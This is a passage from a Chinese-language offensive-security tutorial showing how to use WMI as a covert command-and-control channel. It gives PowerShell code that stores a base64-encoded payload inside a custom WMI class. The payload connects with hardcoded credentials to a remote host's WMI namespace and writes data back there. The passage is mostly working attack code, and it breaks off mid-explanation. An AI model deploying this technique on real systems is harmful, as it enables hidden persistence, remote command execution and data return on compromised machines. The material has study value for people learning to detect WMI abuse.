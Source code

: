 ```
 ([WmiClass] 'Win32_UserInfo').Properties['IP19216840208']

```

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/0732b9a7da5f93fed23ae48dc199ab9321bfedde.jpg)

2、Client获取指令并执行
---------------

**设计思路**：

```
Client加密存储指令
Client读取指令-解密-执行

```

**实现**：

（1）Client加密存储指令

Client端Powershell代码如下：

```
#定义Payload，为保证变量能够解析，需要使用单引号‘
$Payload=@'
$Options = New-Object Management.ConnectionOptions
$Options.Username = 'a'
$Options.Password = 'testtest'
$Options.EnablePrivileges = $True
$Connection = New-Object Management.ManagementScope
$Connection.Path = '\\192.168.40.206\root\cimv2'
$Connection.Options = $Options
$Connection.Connect()
$EvilClass = New-Object Management.ManagementClass($Connection, [String]::Empty, $null)
$EvilClass['__CLASS'] = 'Win32_CommandTest'
$EvilClass.Properties.Add('IP19216840208', [Management.CimType]::String, $False)
$EvilClass.Properties['IP19216840208'].Value ="Run Command Test!" 
$EvilClass.Put() 
'@
#对payload作base64加密
$bytes  = [System.Text.Encoding]::Unicode.GetBytes($Payload);
$EncodedPayload = [System.Convert]::ToBase64String($bytes); 
#存储加密后的payload
$StaticClass = New-Object Management.ManagementClass('root\cimv2', $null,$null)
$StaticClass.Name = 'Win32_Command'
$StaticClass.Put()
$StaticClass.Properties.Add('EnCommand' , $EncodedPayload)
$StaticClass.Put() 

```

如图
